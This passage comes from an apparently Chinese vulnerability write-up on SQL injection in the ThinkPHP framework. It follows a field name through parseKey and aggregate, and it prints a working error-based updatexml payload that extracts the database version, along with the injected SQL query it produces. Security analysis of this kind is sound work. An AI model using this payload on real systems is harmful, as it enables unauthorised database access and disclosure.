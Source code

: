 ```php
     * @access public
     * @param  Query     $query 查询对象
     * @param  mixed     $key   字段名
     * @param  bool      $strict   严格检测
     * @return string
     */
    public function parseKey(Query $query, $key, $strict = false)#$key=id`)and updatexml(1,concat(0x7e,version(),0x7e),1) from users#
    {
        if (is_numeric($key)) {
            return $key;
        } elseif ($key instanceof Expression) {
            return $key->getValue();
        }

        ...

        if ('*' != $key && ($strict || !preg_match('/[,\'\"\*\(\)`.\s]/', $key))) {
            $key = '`' . $key . '`';
        }

        return $key;#$key=`id`)and updatexml(1,concat(0x7e,version(),0x7e),1) from users#`
    }
```

从`Query->max`传递到`Query->aggregate`再传递到`Connection->aggregate`,通过`parseKey`对传入的`$options`进行处理

>类似于前面提到的5.1.17版本sql注入

处理后得到

```
$key=`id`)and updatexml(1,concat(0x7e,version(),0x7e),1) from users#`
```

返回到`Connection->aggregate`,`$field`进行拼接得到

```
$field=MAX(`id`)and updatexml(1,concat(0x7e,version(),0x7e),1) from users#`) AS tp_max
```

最终进行查询的sql为

```
SELECT MAX(`id`)and updatexml(1,concat(0x7e,version(),0x7e),1) from users#`) AS tp_max FROM `users` LIMIT 1  
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204111512808.png)

# exp注入(全版本影响)

>测试版本为5.0.10

## 漏洞复现
